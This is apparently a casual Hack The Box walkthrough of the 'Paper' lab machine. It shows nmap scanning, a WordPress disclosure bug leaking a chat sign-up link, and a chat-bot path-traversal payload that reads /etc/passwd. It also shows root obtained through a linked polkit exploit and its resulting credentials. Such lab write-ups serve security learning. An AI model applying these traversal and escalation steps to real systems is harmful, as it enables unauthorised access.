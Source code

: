 # Paper HTB Walkthrough

a nice htb box where we exploit wordpress, mess with LFI, and root using a polkit vuln. fun one!

# Introduction  

**Name:** Paper  
**Challenge type:** Boot2Root  
**Rated difficulty:** Easy  
**Box creator:** secnigma  

# Nmap Scan Results  

we will start by scanning open ports on the target machine, here's what nmap found:  

```
$ nmap -p- -sC -sV $IP -oN nmap/full-tcp.nmap
```

```
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.0 (protocol 2.0)

80/tcp  open  http     syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

443/tcp open  ssl/http syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
```

interesting, we've got SSH, HTTP and HTTPS open. nothing too unusual yet.  

# Enumerating SSH  

```
$ ssh root@10.10.11.143
root@10.10.11.143's password:
```

we can see here that password auth is enabled which isn't the safest. when we get credentials, let's come back here.  

# Enumerating HTTP (Port 80)  

after messing around for a bit, we can see a weird response header in burp suite:  

![weird header](../images/htb/paper/weird-header.webp)  

interesting.. let's add that to our /etc/hosts file:  

```
$ echo "10.10.11.143    office.paper" | sudo tee -a /etc/hosts
```

# Enumerating office.paper  

now let's go to office.paper!! after looking at the source code, we can see this website is running wordpress:  

![wordpress version](../images/htb/paper/wordpress-version.webp)  

now that we know this is running wordpress, let's run wpscan:  

```
$ wpscan --url http://office.paper/
```

wpscan didn't show anything too interesting..  

after searching around, we find this website is vulnerable to `CVE-2019-17671`.  

going to `http://office.paper/?static=1` shows us some VERY juicy information:  

```
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

# Exploring the Chat System  

after going to the registration URL and signing up, we can message the recyclops bot:  

**testing file reading with recyclops bot**  

```
ax0ryn
8:23 PM
recyclops file ../../../../../../etc/passwd

recyclops
Bot
8:23 PM
<!=====Contents of file ../../../../../../etc/passwd=====>
root:x:0:0:root:/root:/bin/bash
[...]
dwight:x:1004:1004::/home/dwight:/bin/bash
<!=====End of file ../../../../../../etc/passwd=====>
```

we can use LFI to read `/etc/passwd`.  

after looking around a bit, we find credentials somewhere in `../hubot/` :)  

# Privilege Escalation  

after logging in with the found creds using SSH, we get user.txt!!  

after enumerating for a bit, i didn't find anything. so, i ran linpeas:  

linpeas showed the polkit version is vulnerable! found this exploit:  

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/blob/main/poc.sh  

after running the exploit a few times, we can log in with:  

```
su - secnigma
password: secnigmaftw
```

after that, we run:  

```
sudo bash
```

and then we're root!!  

# Conclusion  

this machine was quite fun!! i really liked chaining multiple things together to go somewhere!!  
